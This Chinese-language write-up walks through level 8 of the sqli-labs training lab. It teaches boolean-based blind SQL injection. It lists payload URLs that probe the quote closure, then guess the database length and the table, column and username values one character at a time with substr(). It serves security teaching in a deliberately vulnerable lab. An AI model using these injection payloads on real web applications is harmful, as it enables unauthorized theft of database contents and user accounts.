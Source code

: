 ```yaml
---
title: Less - 08
date: 2023-03-13T14:36:46Z
lastmod: 2023-03-13T14:50:07Z
---
```


# Less - 08

---

# 一、补充知识

---

因为页面只返回yes或no，不返回数据库中的数据，所以我们这里肯定是不能使用union注入的  
​`length(database())>=1`​，判断当前数据库长度是否>=1，正确输出1，错误输出0  
​`substr(database(),1,1)='s'`​，判断当前数据库的第一个字母是否为s，正确输出1，错误输出0，substr的作用是截取长度  
​`ord(substr(database(),1,1))=115`​，转ASCII码判断，正确输出1，错误输出0  
​`substr((select table_name from information_schema.tables where table_schema='A' limit 0,1),1,1)='e'`​，判断A库下面第一张表的第一个字母是否为e，正确输出1，错误输出0  
​`substr((select column_name from information_schema.tables where table_name='B' limit 0,1),1,1)='e'`​，判断B表下面的第一个字段的第一个字母是否为e，正确输出1，错误输出0  
​`substr((select C from A.B limit 0,1),1,1)='e'`​，判断C字段下面的第一个值的第一个字母是否为e，正确输出1，错误输出0

# 二、通关教程

---

## 1、判断闭合

---

```html
http://192.168.225.132/sqli-labs/Less-8/?id=1 #回显正常
http://192.168.225.132/sqli-labs/Less-8/?id=1' #没有任何回显
http://192.168.225.132/sqli-labs/Less-8/?id=1'--+ #回显正常
```

​![image](assets/image-20230313144418-a8npcqr.png)​

​![image](assets/image-20230313144432-bldkmb5.png)​

---

## 2、判断当前数据库的长度

---

```html
http://192.168.225.132/sqli-labs/Less-8/?id=1' and length(database())>=1--+
```

​![image](assets/image-20230313144644-tsbu2xl.png)​

## 3、判断security库下的所有表

---

```html
http://192.168.225.132/sqli-labs/Less-8/?id=1' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='a'--+
```

​![image](assets/image-20230313144803-bxb9c4l.png)​

## 4、判断users表下的字段

---

```html
http://192.168.225.132/sqli-labs/Less-8/?id=1' and substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='a'--+
```

​![image](assets/image-20230313144858-v1fptjg.png)​

## 5、判断username字段下的值

```html
http://192.168.225.132/sqli-labs/Less-8/?id=1' and substr((select username from security.users limit 0,1),1,1)='c'--+
```

​![image](assets/image-20230313144958-ubpq7gs.png)​

‍
